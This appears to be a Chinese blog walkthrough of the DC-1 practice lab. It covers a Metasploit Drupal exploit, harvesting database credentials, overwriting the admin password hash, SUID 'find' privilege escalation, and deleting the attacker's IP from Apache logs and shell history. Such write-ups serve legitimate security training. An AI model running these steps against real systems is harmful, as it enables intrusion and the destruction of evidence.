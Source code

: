 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 信息搜集

### 1.1. 主机发现

```shell
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 1.2. 渗透

```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```

#### 1.2.1. 获取flag1

![Pasted%20image%2020250707150809.png](https://img.ghostliner.top/arJvR1.png)

提示查找配置文件

#### 1.2.2. 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png](https://img.ghostliner.top/MCGvyt.png)

![Pasted%20image%2020250707151035.png](https://img.ghostliner.top/LVs8FM.png)

#### 1.2.3. 获取flag3

获取到数据库信息

```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png](https://img.ghostliner.top/btkBWY.png)

#### 1.2.4. 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```

![Pasted%20image%2020250707151856.png](https://img.ghostliner.top/Tw3JiS.png)

![Pasted%20image%2020250707151953.png](https://img.ghostliner.top/Gq0tZA.png)

#### 1.2.5. 获取flag5

按提示提权

```shell
find / -perm -4000 -type f 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png](https://img.ghostliner.top/weYUZl.png)

## 2. 痕迹清除

### 2.1. 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```

### 2.2. 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### 2.3. history

```shell
history -c
```
